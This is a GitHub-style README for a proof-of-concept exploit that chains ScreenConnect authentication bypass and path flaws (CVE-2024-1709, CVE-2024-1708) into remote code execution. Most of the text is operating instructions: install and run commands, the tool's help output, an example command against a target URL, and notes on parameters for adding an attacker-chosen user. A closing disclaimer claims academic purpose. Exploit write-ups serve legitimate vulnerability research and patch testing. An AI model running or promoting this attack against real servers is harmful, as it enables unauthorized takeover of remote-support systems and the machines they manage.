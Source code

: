#
<h2>CoonectWise Remote Code Execution</h2>

- <b>Common Vulnerabilities and Exposures ID: CVE-2024-1709</b>

- <b>CVSS v3 Score: 9.5 (Critical)</b>
  
- <b>Description: This is a critical authentication bypass vulnerability affecting ConnectWise ScreenConnect versions 23.9.7 and earlier. This vulnerability allows an attacker to bypass authentication and gain unauthorized access to systems and sensitive information. </b>

## POC
[Root Cause Analysis (RCA) & Indicators Of Comprimise (IOCs):](https://arcticwolf.com/resources/blog/cve-2024-1709-cve-2024-1708-follow-up-active-exploitation-and-pocs-observed-for-critical-screenconnect-vulnerabilities/)

## Usage
```
pip install requests
# python 
check.py
python batchAdduser.py
```
![](https://github.com/W01fh4cker/ScreenConnect-AuthBypass-POC-EXP/assets/101872898/9f9be7be-d607-4fcf-97dc-2d8a4939db5e)

```text
python ScreenConnect-AuthBypass-RCE.py -h

usage: ScreenConnect-AuthBypass-RCE.py [-h] [-u USERNAME] [-p PASSWORD] -t TARGET [-d DOMAIN] [--proxy PROXY]
                                                                                                             
CVE-2024-1708
 && 
CVE-2024-1709
 --> RCE!!!                                                                    
                                                                                                             
optional arguments:                                                                                          
  -h, --help            show this help message and exit                                                      
  -u USERNAME, --username USERNAME                                                                           
                        username you want to add                                                             
  -p PASSWORD, --password PASSWORD
                        password you want to add
  -t TARGET, --target TARGET
                        target url
  -d DOMAIN, --domain DOMAIN
                        Description of domain
  --proxy PROXY         eg: http://127.0.0.1:8080
```
For example:
```shell
python ScreenConnect-AuthBypass-RCE.py -t http://192.168.9.100
```

## Execution:
* -u or --username: Enter a username to potentially use in the attack.
* -p or --password: Enter a password to potentially use in the attack.
* -t or --target: Specify the URL of the target ScreenConnect server.
* -d or --domain (unclear purpose): Might be for specifying a domain name related to the target.
* --proxy: Allows using a proxy server for the attack (optional).

## Aditional Information:

>https://www.connectwise.com/globalassets/media/documents/connectwisecontrolsecurityevaluationmatrix.pdf

## SecAdmin Notes
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.

